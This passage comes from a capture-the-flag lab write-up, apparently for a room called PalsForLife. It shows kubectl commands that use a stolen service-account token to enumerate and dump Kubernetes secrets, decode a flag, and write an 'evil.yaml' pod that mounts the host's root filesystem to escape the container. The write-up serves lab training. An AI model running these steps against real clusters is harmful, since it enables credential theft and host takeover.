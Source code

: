 <br>

<img width="1341" height="185" alt="image" src="https://github.com/user-attachments/assets/daae37de-5eb5-44ea-b52f-f62426b666aa" />

<br>

```bash
:~/PalsForLife# kubectl --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify api-resources --namespaced=true
```

<br>

<img width="1369" height="718" alt="image" src="https://github.com/user-attachments/assets/1be3f1a7-a196-4f76-8fbe-a9c84facad6d" />

<br>

```bash
:~/PalsForLife# kubectl --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify get Secret --all-namespaces
```

<br>

<img width="1374" height="770" alt="image" src="https://github.com/user-attachments/assets/5154326d-0e7b-4ea7-9d1c-a73e8f219750" />

<br>

```bash
:~/PalsForLife# kubectl --server --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify get Secret flag3 -n kube-system -o yaml
```

<br>

<img width="1373" height="374" alt="image" src="https://github.com/user-attachments/assets/6417679d-d584-4395-8f6e-95e2a28e8655" />

```bash
:~/PalsForLife# echo 'ZmxhZ3...X2ZhdWx0IX0=' | base64 -d
flag{*****************}
```

<br>

<p>1.3. Flag 3. Hint : kubectl<br>
<code>flag{*****************}</code></p>

<br>

```bash
~/PalsForLife# cat evil.yaml

apiVersion: v1
kind: Pod
metadata:
  name: mount
spec:
  volumes:
  - name: mount
    hostPath:
      path: /
      type: Directory                                                                                                         
  containers:
  - image: docker.io/library/nginx@sha256:6d75c...d121e15d80ad526f8369c526324f0f7ccb750
    name: mount
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /mount
      name: mount
```